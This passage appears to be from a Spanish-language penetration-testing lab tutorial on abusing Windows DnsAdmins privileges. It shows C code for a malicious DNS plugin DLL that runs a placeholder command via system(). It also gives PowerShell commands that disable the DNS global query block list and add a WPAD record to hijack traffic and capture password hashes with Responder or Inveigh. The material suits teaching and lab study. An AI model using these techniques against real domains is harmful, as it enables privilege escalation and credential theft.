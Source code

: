 ```r
DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```

## Creating a WPAD Record

Otra forma de abusar de los privilegios del grupo DnsAdmins es creando un registro WPAD. La membresía en este grupo nos da los derechos para [disable global query block security](https://docs.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps), que por defecto bloquea este ataque. Server 2008 introdujo por primera vez la capacidad de agregar a una lista de bloqueo de consultas globales en un servidor DNS. Por defecto, Web Proxy Automatic Discovery Protocol (WPAD) e Intra-site Automatic Tunnel Addressing Protocol (ISATAP) están en la lista de bloqueo de consultas globales. Estos protocolos son bastante vulnerables al secuestro, y cualquier usuario del dominio puede crear un objeto de computadora o un registro DNS que contenga esos nombres.

Después de deshabilitar la lista de bloqueo de consultas globales y crear un registro WPAD, cada máquina que ejecute WPAD con la configuración predeterminada tendrá su tráfico redirigido a través de nuestra máquina de ataque. Podríamos usar una herramienta como [Responder](https://github.com/lgandx/Responder) o [Inveigh](https://github.com/Kevin-Robertson/Inveigh) para realizar suplantación de tráfico e intentar capturar hashes de contraseñas y descifrarlos fuera de línea o realizar un ataque SMBRelay.

### Disabling the Global Query Block List

Para configurar este ataque, primero deshabilitamos la lista de bloqueo de consultas globales:

```r
C:\htb> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```

### Adding a WPAD Record

Luego, agregamos un registro WPAD apuntando a nuestra máquina de ataque.

```r
C:\htb> Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local
```